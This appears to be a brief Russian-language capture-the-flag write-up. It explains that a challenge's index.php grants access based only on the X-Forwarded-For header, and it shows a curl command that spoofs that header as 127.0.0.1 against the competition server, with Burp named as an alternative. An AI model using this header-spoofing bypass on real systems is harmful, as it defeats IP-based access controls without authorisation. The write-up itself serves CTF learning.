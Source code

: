 ## После изучения исходника [index.php(index.php)] видим что он проверяет лишь HTTP-X-FORWARD а его легко подменить 
Можно через curl
```
curl -H "X-Forwarded-For: 127.0.0.1" http://chal.competitivecyber.club:8081
```
А можно и через burp перехватить запрос и добавить хедер